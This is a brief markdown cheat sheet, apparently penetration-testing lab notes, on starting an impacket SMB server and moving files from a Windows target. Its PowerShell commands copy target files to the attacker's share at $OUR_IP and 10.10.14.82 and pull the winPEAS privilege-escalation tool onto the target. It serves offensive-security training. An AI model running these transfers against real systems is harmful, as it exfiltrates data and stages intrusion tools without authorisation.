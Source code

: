 ```yaml
---
tags:
---
```

# smbserver

Quick SMB server to upload and download files

## Capabilities

```bash
# Setup SMB server
sudo impacket-smbserver -smb2support share $(pwd)
sudo impacket-smbserver -smb2support -username mojo -password password123 share $(pwd)
```

Interact with the SMB server from the target's machine

```powershell
# Move file from target to attack box
cp target_file.txt \\$OUR_IP\share\target_file.txt

# Move file from attack box to target
cp \\$OUR_IP\share\winPEASany.exe winPEAS.exe

# Include authentication
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.82\share\playercounter-1.0-SNAPSHOT.jar

# Include authentication
net use \\$OUR_IP\share /user:mojo password123
net use \\$OUR_IP\share /delete
```
